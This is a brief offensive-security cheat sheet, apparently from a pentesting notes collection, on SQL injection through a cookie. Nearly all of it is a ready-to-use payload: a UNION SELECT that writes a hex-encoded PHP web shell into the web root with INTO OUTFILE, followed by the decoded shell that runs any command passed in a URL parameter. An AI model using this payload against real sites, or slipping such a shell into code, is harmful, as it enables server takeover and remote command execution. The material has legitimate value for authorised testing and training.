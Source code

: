 # Cookie Based SQLi

## Overview
You can sometimes conduct SQLi via a cookie, if the cookie is processed by a database such as MySQL on the backend, this can be used to leverage PHP and gain RCE in web applications.

## Example

'UNION SELECT 1, 0x3c3f706870206563686f20223c7072653e22202e207368656c6c5f6578656328245f4745545b22636d64225d29202e20223c2f7072653e223b3f3e INTO OUTFILE 'var/www/html/shell.php'-- -

Where the hex is actually:

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";?>
